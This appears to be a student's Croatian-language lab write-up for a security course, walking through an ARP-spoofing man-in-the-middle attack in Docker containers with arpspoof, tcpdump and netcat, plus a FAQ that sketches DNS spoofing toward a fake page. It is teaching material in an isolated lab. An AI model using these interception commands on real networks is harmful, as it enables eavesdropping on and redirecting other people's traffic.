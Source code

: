 # Sigurnost računala i podataka

## Lab 1 - Man-in-the-middle attack (ARP spoofing)

### Cilj

Zadatak ove vježbe je da nas upozna s tipom MITM napada, ARP spoofing. Također da bi uspješno proveli vježbu upoznat ćemo se s osnovama linuxa i nekim njegovim alatima.

### Korištene tehnologije

- WSL(Windows Subsystem for Linux)
- Docker
- Git
- Linux alati
    - Netcat
    - Arpspoof

### Podizanje radne okoline

Prvo smo pokrenutilo WSL bash te smo u njemu izveli sljedeće naredbe.

Napravi novi direktorij s nazivom *bdurdo*. Zatim otvori taj direktorij i u njemu kloniraj GitHub repositorij.

```bash
mkdir bdurdo
cd bdurdo
git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)
```

Zatim otvorimo *SRP-2021-22/arp-spoofing* direktorij te pokrenimo *.start.sh* koji će se pobrinuti za enviroment varijable, zaustavljanje i brisanje kontenjera ako postoje, izradu slika i pokretanje docker compose-a.

```bash
cd SRP-2021-22/
cd arp-spoofing/
./start.sh
```

Trenutno imamo podignuta 3 docker kontenjera koji su spojeni na zajedničku mrežu, te je okružje za laboratorijsku vježbu postavljeno.

Provjera jesu li kontenjeri stvarno podignuti

```bash
docker ps
```

Dodavanje više terminala na jednom prozoru → CTRL+SHIT+D

Pristupanje bash-u u svakom pojedinom pokrenutom kontenjeru

```bash
docker exec -it station-1 bash
docker exec -it station-2 bash
docker exec -it evil-station bash
```

Provjera konfiguracije mreže iz kontenjera

```bash
ifconfig -la
```

### Uspostavljanje komunikacije između servera

Provjera povezanosti kontenjera

```bash
ping station-2
```

Pokretanje netcat servera(*station-2*)

```bash
netcat -l -p 9000
```

Spajanje na netcat server(*station-1*)

```bash
netcat station-2 9000
```

Trenutno imamo spojen *station-1* i *station-2* te možemo razmjenjivati poruke između njih.

### ARP spoof napad

Slušanje prometa

```bash
tcp dump
```

Kad pokrenemo ovo na *evil-station* ne vidimo pakete jer nam se nitko ni ne obraća

Preusmjeravanje prometa

- -t → target, onaj koga varamo
- -h → host - onaj kim se predstavljam

```bash
arpspoof -t station-1 station-2
```

OUTPUT:

> 2:42:ac:12:0:4 2:42:ac:12:0:2 0806 42: arp reply 172.18.0.3 is-at 2:42:ac:12:0:4
> 

Što bi u prijevodu značilo govorim switchu da je na tome IP taj(u ovome slučaju moj) MAC

Filtriranje prometa od *host* i *station-1*(bez ARP paketa)

```bash
tcpdump -X host station-1 and not arp
```

Sada kad pošaljemo poruku možemo je vidjeti bez ostalih paketa.

Prekid prometa (između *station-1* i *station-1*)

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

Izlaz iz pojedinog bash-a docker kontenjera

```bash
exit
```

Zaustavljenje i ukljanjanje docker kontenjera

```bash
./stop.sh
```

### FAQ

- Zašto je ovaj napad moguć?
    
    Kada se ARP definiriao 1982, nije postojao Wi-Fi, niti se tolika pažnja pridavala na napade intrudera u lokalnim mrežama. Kod nove inačice IPv6 nemamo ARP spoofing napad.
    
- Ako smo blokirali promet *station-1* prema *station-2*, zašto je *station-2* mogao poslati samo 2 poruke prema *station-1* iako mu put prema *station-1* nije blokiran?
    
    Odgovor se nalazi u samom TCP protokolu koji je korišten u netcat-u, koji zahtjeva potvrdu o uspješnom primitku poruke. Tako da poruka je uspješno došla do *station-1,* ali on to nije mogao javiti station-2 jer je taj put blokiran. Pošto TCP layer na *station-2* nije dobio potvrdu o primitku te poslane poruke ni nakon prve, ni nakon druge, treću nismo uspili niti poslati do *station-1* jer nije prošla kroz TCP layer na *station-2,* popunio se batch (buffer poruka koje čekaju potvrdu) i nove se ne mogu poslati dok te ne dobiju potvrdu i maknu se iz batcha. Da smo podesili UDP protokol kod netcat-a uspješno bi mogli slati poruke jer UDP ne zahtjeva potvrdu o uspješnom primitku, pomoću "-u" u naredbi.
    
    ```bash
    netcat -u -l -p 9000
    netcat -u station-2 9000
    ```
    
- Dodatne mogućnosti?
    
    Zavarati klijenta da smo mi switch i kada zatraži neku stranicu pobrinemo se da se nalazi u našem dns recordu te da smo hostali server za nju pa ga usmjerimo na tu fake stranicu. Također modificiramo response time da sve bude realnije. Za sve ostale requestove port forward.